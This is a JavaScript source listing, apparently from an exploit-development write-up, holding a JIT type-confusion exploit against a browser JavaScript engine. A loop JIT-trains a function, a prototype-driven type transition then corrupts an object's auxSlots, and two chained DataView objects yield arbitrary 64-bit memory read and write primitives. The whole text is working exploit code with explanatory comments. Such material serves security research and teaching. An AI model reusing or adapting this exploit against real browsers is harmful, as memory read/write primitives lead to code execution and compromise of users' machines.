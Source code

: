 ```javascript
// Arbitrary read function
function read64(lo, hi) {
	dataview1.setUint32(0x38, lo, true); 		// DataView+0x38 = dataview2->buffer
	dataview1.setUint32(0x3C, hi, true);		// We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

	// Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
	// Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
	var arrayRead = new Uint32Array(0x10);
	arrayRead[0] = dataview2.getUint32(0x0, true); 	// 4-byte arbitrary read
	arrayRead[1] = dataview2.getUint32(0x4, true);	// 4-byte arbitrary read

	// Return the array
	return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
	dataview1.setUint32(0x38, lo, true); 		// DataView+0x38 = dataview2->buffer
	dataview1.setUint32(0x3C, hi, true);		// We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

	// Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
	dataview2.setUint32(0x0, valLo, true);		// 4-byte arbitrary write
	dataview2.setUint32(0x4, valHi, true);		// 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // From here we can call read64() and write64()
}

main();
```
